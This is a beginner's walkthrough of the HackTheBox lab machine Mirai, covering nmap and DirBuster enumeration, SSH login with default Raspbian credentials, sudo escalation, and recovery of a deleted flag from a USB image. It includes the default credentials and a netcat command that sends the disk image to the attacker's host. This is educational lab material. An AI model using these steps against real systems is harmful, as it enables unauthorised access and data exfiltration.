

Mirai is a Linux machine rated Easy on HTB.

The main purpose of this write-up is to consolidate my learning points. If you're also starting out, you might find it helpful.

# Information Gathering and Vulnerability Identification

## OSINT

Mirai might be a reference to the infamous [Mirai botnet]((https://www.csoonline.com/article/3258748/the-mirai-botnet-explained-how-teen-scammers-and-cctv-cameras-almost-brought-down-the-internet.html)) involving IoT devices.

## Nmap Scan Results

Start with nmap to get the lay of the land.

`nmap -sC -sV -oA initial 10.10.10.48`

* `-sC` - default scripts
* `-sV` - version scan
* `-oA` - output all formats with the filename initial


We have three ports.

* Port 22 - SSH
* Port 53 - DNS
* Port 80 - HTTP

Look at the fourth line which says "Not shown: 997 closed ports".

By default, nmap scans only 1000 common ports. Scanning every single port might prove useful but takes up time.

So let's set up a second scan to let it run as we explort the open ports further.

`nmap -p- -oA all 10.10.10.48`

* `-p-` - scan all probes
* Nmap uses the [SYN scan](https://nmap.org/book/synscan.html) by default when running as root

## HTTP (Port 80)

A good first step when approaching any application is to assume the user's role.

**Open in your browser:**

`http://10.10.10.48/`

You'll see a blank page.


### curl

Let's figure out what's going on behind the scenes.

`curl -v 10.10.10.48`

* `curl` - curl is tool that transfers data to and from a server and supports wide range of protocols including HTTP
* `-v` - verbose mode for debugging info

```
root@kali:~# curl -v 10.10.10.48
*   Trying 10.10.10.48:80...
* TCP_NODELAY set
* Connected to 10.10.10.48 (10.10.10.48) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.48
> User-Agent: curl/7.65.3
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 404 Not Found
< X-Pi-hole: A black hole for Internet advertisements.
< Content-type: text/html; charset=UTF-8
< Content-Length: 0
< Date: Fri, 08 Nov 2019 03:25:54 GMT
< Server: lighttpd/1.4.35
<
* Connection #0 to host 10.10.10.48 left intact
```

Information to note:
* The response code is 404 so the index page is not found.
* An app called X-Pi-hole is running.
* The HTTP server is lighttpd/1.4.35 - might be useful for finding vulnerabilities

### DirBuster

Although the index page is not found, other pages might be accessible. To find these pages, let's use **DirBuster**, which comes with Kali.

1. Key in target URL
2. Choose a wordlist
3. Uncheck the Recursive option to save time by skipping subfolders at this point
4. Click Start




There are two directories (Type:Dir) and were able to access them. (Response Code:200).

* admin
* versions

**Browse to:**

`http://10.10.10.48/admin`


Check out the Login page.


### What is Pi-hole?

* [A software that blocks advertisements and malware using a DNS sinkhole.](https://pi-hole.net/)
* Designed for embedded devices like raspberry pi (IoT device as hinted by the machine name Mirai)

Login pages present a few possible vulnerabilities including:

* Default credentials
* Weak credentials

According to this [pi-hole setup guide](https://www.smarthomebeginner.com/pi-hole-setup-guide/#What_is_the_default_Pi_Hole_Password), pi-hole creates a unique password upon installation. So there's no default password vulnerability for this login page.

However, pi-hole is commonly installed on raspberry pi which uses raspbian.

* Raspbian is a Debian-based distro. Our nmap version scan of SSH revealed Debian as well so this ties in with our assumption.
* Raspbian has [default credentials](https://www.raspberrypi.org/documentation/linux/usage/users.md). We'll try that in our exploit phase.

<details>
<summary>DNS probing did not pan out, but if you want to learn more about DNS zone transfer, expand this.</summary>

## DNS Enumeration (Port 53)

### What is DNS?

From Cloudflare

> The Domain Name Systems (DNS) is the phonebook of the Internet.

Like your phone contact list, with it, you do no need to remember your friend's phone numbers. You just need to remember their names.

E.g., when you type in google.com, DNS helps to resolve the name into an IP address so that your browser can find google.com.

A DNS server has two main purposes:

1. Sharing its data with other DNS servers (Zone transfers)
2. Answering DNS queries (replying with an IP address in response to a name query)

### What is our interest in DNS?

From [InfoSec](https://resources.infosecinstitute.com/what-is-enumeration/)

> DNS enumeration is possible by sending **zone transfer request** to the DNS primary server pretending to be a client. It reveals **sensitive domain records** in response to the request.

Use the [dig](https://linux.die.net/man/1/dig) command attempts a zone transfer from Mirai.

`dig axfr @10.10.10.48 pi-hole`

* `dig` - **D**omain **I**nformation **G** roper, tool we use to interact with DNS servers
* `@10.10.10.48` - syntax for specifying the server to query
* `pi-hole` - the domain name we are interested in getting more information about
* `axfr` - Authoritative Transfers, a mechanism for zone transfers. It tells dig to send a request for zone transfers

In this case, the server did not reply. This line of inquiry did not bring us closer to getting the flags but Ippsec still showed us his thought process. This is the best part of Ippsec videos.

To see what kind of information a zone transfer can reveal, try out the dig command on the servers in this [article](https://digi.ninja/projects/zonetransferme.php).

</details>

# Attacks and Exploits

## Default Credentials

Enter the default credentials for raspbian.

* Username: pi
* Password: raspberry

```
root@kali:~# ssh pi@10.10.10.48
pi@10.10.10.48's password: raspberry
```

After getting into a shell with these credentials, you can find the location of the user key by executing the command below in the home directory. (Or you can browse around manually.)

`find . -name user.txt`

* `find` - looks for files recursively
* `.` - start search in current directory
* `-name user.txt` - filename to find is *user.txt*

## Privilege Escalation

Check our privileges with `id`.

```
pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
```

Yes! We are in the sudo group. Let's upgrade to a root shell.

`sudo -i`

* `sudo` - execute command as another user and when user is not specified, execute as root
* `-i` - simulates initial login by user which is root in this case

Now, let's get the root file.

```
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

Okay, let's look for the USB drive.

`lsblk` - lists block devices information in a friendly format

```
root@raspberrypi:~# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
```
According to the information above,the usb drive is mounted at **/media/usbstick**.

You'll find a txt file at that location.

```
root@raspberrypi:/media/usbstick# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```
## Forensics and Data Exfiltration

Ha! Forensics!

Let's follow these steps:

1. Create an image of the usbstick.
2. Compare the hashes.
3. Send the image to your machine to apply forensic tools. (Exfiltrating)

Create an image with **dcfldd**, a tool for for copying and converting files (enhanced from GNU dd).

`dcfldd if=/dev/sdb of=/tmp/usb.dd hash=md5,sha1 hashlog=/tmp/hashlog.txt`

* `if` - input file path to copy from (you need to point to the block file so use /dev/sdb and not the mounted path)
* `of` - output file path to copy to
* `hash` - hash type to apply
* `hashlog` - file to record the specified hash values

Compare the hashes.

`dcfldd if=/dev/sdb vf=/tmp/usb.dd verifylog=/tmp/verifylog.txt`

* `vf` - file path to verify to make sure that it's the same as the file specified in if
* `verifylog` - file to record the result in; you should get MATCH

Now, send the file to your system so that you can apply a variety of forensic tools.

To exfiltrate the image with `nc`, follow these instructions.

On your machine:

`nc -nvlp 8888 > usb.dd`

On the machine you're attacking:

`nc 10.10.10.1 8888 < usb.dd`

You should find the usb.dd file in the directory where you started your netcat listener.

(Since SSH is available, you can also use scp which was used in the official walkthrough.)

Now, let's try to recover the file.

`fls` lists the files and directories in a file image.

```
root@kali:~/htb/mirai# fls usb.dd
d/d 11:	lost+found
r/r * 12:	root.txt
r/r 13:	damnit.txt
V/V 2561:	$OrphanFiles
```
We see root.txt. But you will find that most forensic tools are unsuccessful in recovering it.

Utimately, a simple `strings` command yielded the flag. `strings` shows sequences of printable chracters from a file.

You can find the root key with the command below.

`strings usb.dd`

# Lessons

There are many lessons for me since this is my second HTB box. So I'll list three major ones.

**Lesson #1 - The need to build a methodology starting with the lowest hanging fruits.**

Researched and found a few privilege escalation vulnerabilities of Pi-hole. Decided to work on them but could not get anything to work.

Turned out that the raspbian installation kept its default credentials. Fruits don't hang lower than this.

**Lesson #2 - Overview of file recovery tools**

Ippsec's video covers a variety of file recovery tools including.

* binwalk
* TestDrive
* PhotoRec

However, according to the official walkthrough, they could not work because the data between the filename and the file contents has been overwritten.

**Lesson #3 - Basic DNS enumeration**

Although the DNS line did not pan out, it was my first try at DNS Zone Transfers. Learned the concept of a DNS Sink Hole.

# Ending Thoughts

This is the first retired box I tried, with the help of Ippsec's video. I chose it from his [easy NIX playlist](https://www.youtube.com/playlist?list=PLidcsTyj9JXJfpkDrttTdk1MNT6CDwVZF).

Before this, I rooted only one other machine: Wall (when it was active). That will be another write-up.

Beginners have the advantage of learning a lot. I've learned a lot.

Although I had to refer several times to Ippsec's walkthrough, I'm learning. And I'm writing.

I hope you are too.

*References*

* https://dfir.blog/imaging-using-dcfldd/
* https://therootuser.com/2017/11/13/recover-deleted-files-using-sleuthkit/
